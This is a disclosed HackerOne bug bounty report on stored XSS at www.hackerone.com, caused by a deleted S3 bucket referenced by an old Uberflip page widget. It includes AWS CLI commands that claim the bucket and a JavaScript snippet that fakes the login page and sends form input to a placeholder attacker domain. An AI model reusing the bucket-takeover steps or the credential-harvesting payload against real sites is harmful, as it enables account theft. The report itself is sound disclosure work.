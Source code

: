 # Stored XSS on www.hackerone.com due to deleted S3-bucket from old page_widget

## Report Details
- **Report ID**: 1598347
- **URL**: https://hackerone.com/reports/1598347
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-06-12T19:57:20.615Z
- **Disclosed**: 2023-03-10T15:20:48.799Z

## Reporter
- **Username**: fransrosen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Hi,

I hope you all are good! Here's a funny little bug :) I tried making the most out of it and hope you'll like it.

As you probably know, you're proxying `https://www.hackerone.com/resources` to `read.uberflip.com`. Uberflip has done a great job isolating content for hubs between custom domains pointing to them, so it wasn't that easy to find something interesting here. However, after a while I noticed that there's an old concept called "page widgets" that are still present cross-customers for Uberflip under `/read/page_widget/XXX` where `XXX` is a numeric ID of a widget.

I have no idea how these page widgets are created, but a lot of them seem old. Like, *really* old. Most of them used `http` to load any additional assets which prevented `https://www.hackerone.com` from loading any of the HTTP-assets, but after some digging I did find a few widget-IDs that  used HTTPS to load javascript.

One of those widgets looked like this:

```html
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no">
<meta name="robots" content="noindex, nofollow">
<title>Flipbook Widget</title></head>
<body style="margin:0; padding:0; background:transparent; overflow:hidden;"><div id="widget" style="float:left;"> <script id='vspoverlayrun'

codecredit='CopyRight_VSPWorldwide_Productions'
videofolder='hosted'
projectname='vmags43_overlay'
alignvideo='bottommiddle'
offsetx='0'
offsety='0'
waittime='1000'
autoplay='yes'
videowidth='300'
videoheight='480'
videoscale='1'
videoscalemobile='1'
posterscale='0.5'
clickvideo='close'
autodim='0'
autodimcolor='#000000'

src='https://s3.amazonaws.com/vspcode/vspoverlayrun1.js'></script></div></body></html>
```

What was funny with this one was that the S3-bucket `vspcode` did not exist. I could now claim this bucket and run javascript on `https://www.hackerone.com`:

```
$ aws s3api create-bucket --profile frans --bucket vspcode
{
    "Location": "/vspcode"
}

$ echo "alert(document.domain + ':' + location.href);" > vspoverlayrun1.js

$ aws s3 cp vspoverlayrun1.js s3://vspcode/ --acl public-read --profile frans

upload: ./vspoverlayrun1.js to s3://vspcode/vspoverlayrun1.js
```

I could then visit the widget and see:

{F1771181}

As you're already aware, the `www`-subdomain is still isolated from the app-domain at `https://hackerone.com`. However, the concept of separating an app using `www` vs apex is – I would say – not a standard concept at all. This means that for example password managers will actually help the user by still suggesting auto completion on `www` if the saved login is on the apex-domain. This applies for example both to Safari and Chrome:

{F1771182}

{F1771183}

So I made a javascript that will replace the full content of the page with the sign-in-form of `https://hackerone.com`. The only difference is that it'll log any events interacting with the inputs:

```js
history.pushState('','Sign in', 'https://www.hackerone.com/users/sign_in')
function log() { 
 var x = new FormData(document.forms[0]);
 (new Image()).src='https://MY-DOMAIN/hackerone/?' + btoa(JSON.stringify(Object.fromEntries(x.entries())))
};
document.body.parentElement.innerHTML = 'login-page-of-hackerone.com';
```

This allows me to see any actions taken or any auto-completion triggering on these forms on my own host:

{F1771184}

### PoC

Here's how my page looks like:

{F1771180}

Here's a video showing the concept of loading the website:

{F1771179}

And here's the vulnerable URL:

```
https://www.hackerone.com/resources/read/page_widget/413780
```

Regards,
Frans

## Impact

#

## Attachments
- hackerone-xss.mp4
- Screen_Shot_2022-06-12_at_20.46.10.png
- Screen_Shot_2022-06-12_at_20.45.29.png
- Screen_Shot_2022-06-12_at_20.39.57.png
- Screen_Shot_2022-06-12_at_20.28.44.png
- Screen_Shot_2022-06-12_at_20.29.02.png
